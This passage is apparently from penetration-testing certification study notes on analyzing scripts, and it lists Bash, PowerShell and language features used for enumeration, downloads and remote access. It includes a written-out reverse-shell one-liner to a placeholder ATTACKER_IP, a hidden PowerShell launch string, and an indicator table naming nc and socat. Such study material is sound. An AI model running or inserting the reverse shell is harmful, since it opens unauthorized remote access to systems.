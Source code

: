 ```python
def log_event():
    print("Event logged.")
```
### 🧮 Functions
- Encapsulated code block that performs a task and can return a result.
- Improves code reuse, readability, and modularity.
- Can accept parameters and return processed outputs.
#### Example (Python-style pseudo code)
```python
def add(a, b):
    return a + b
```
## 5.2 Given a scenario, analyze a script or code sample for use in a penetration test
This guide outlines how to evaluate and leverage scripts across shell environments and programming languages for penetration testing, with automation opportunities included.
### 🐚 Shell Scripts
#### **Bash (Linux)**
- Automate reconnaissance (`nmap`, `curl`, `netcat`)
- Download payloads using `wget` or `curl`
- Launch reverse shells:  
  `bash -i >& /dev/tcp/ATTACKER_IP/PORT 0>&1`
- Enumerate users: `whoami`, `id`
- Enumerate assets: `ifconfig`, `hostname`, `lsblk`
#### **PowerShell (Windows)**
- Download files: `Invoke-WebRequest`
- Remote access: `powershell -nop -w hidden -c`
- Enumerate users: `Get-LocalUser`, `net user`
- Enumerate assets: `Get-NetIPAddress`, `Get-WmiObject`
### 💻 Programming Languages
#### **Python**
- Use libraries: `socket`, `subprocess`, `nmap`, `paramiko`
- Automate scans, parse results, launch attacks
- Enumeration: LDAP queries, system info
- File downloads: `urllib.request`, `requests`
#### **Ruby**
- Common in Metasploit: `Net::HTTP`, `Rex::Socket`
- Exploits, reverse shells, user enumeration
#### **Perl**
- Legacy script analysis: `LWP::Simple`, `IO::Socket`
- Regex-heavy enumeration and downloads
#### **JavaScript**
- Client-side payloads (e.g., XSS)
- File downloads: `fetch()`, `XMLHttpRequest`
- DOM exploitation and event manipulation
### 🔍 Analyzing Exploit Capabilities
| Capability       | Indicators in Script                           |
|------------------|-------------------------------------------------|
| **Download Files** | `curl`, `wget`, `Invoke-WebRequest`, `fetch()` |
| **Remote Access**  | Reverse shell code (`nc`, `socat`, `powershell`) |
| **User Enumeration** | `whoami`, `id`, `net user`, LDAP queries      |
| **Asset Enumeration** | `ipconfig`, `Get-NetIPAddress`, SNMP queries |
### 🤖 Automation Opportunities